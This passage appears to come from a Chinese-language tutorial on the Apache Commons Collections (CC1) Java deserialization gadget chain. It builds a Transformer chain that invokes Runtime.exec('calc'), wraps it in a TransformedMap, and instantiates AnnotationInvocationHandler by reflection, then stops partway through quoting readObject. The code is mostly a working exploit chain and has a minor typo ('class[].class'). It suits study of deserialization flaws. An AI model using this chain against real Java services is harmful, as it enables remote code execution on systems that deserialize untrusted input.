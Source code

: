 最后调用exec方法，因此传exec进去，参数是命令，第四个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}),
  
  new InvokerTransformer("exec", //调用exec方法
    new Class[]{String.class},
    new Object[]{"calc"})
};
```

把Transformer[]传给ChainedTransformer

```java
Transformer transformerChain = new ChainedTransformer(transformers);
```

TransformedMap是实现了Serializable的类，构造函数接收map，key，value。key，value都是Transformer。

把transformerChain传给TransformedMap.decorate，造出一个TransformedMap对象存在tmap中

```java
Map map = new HashMap();
map.put("value", "Roderick");
Map tmap = TransformedMap.decorate(map, null, transformerChain);
```

反射获取`sun.reflect.annotation.AnnotationInvocationHandler` ，获取实例传入tamp，反序列化的过程就会调用tamp.setValue

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, tmap);
```

我们查看它的`readObject`方法（8u71以后做了一些修改）

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
```
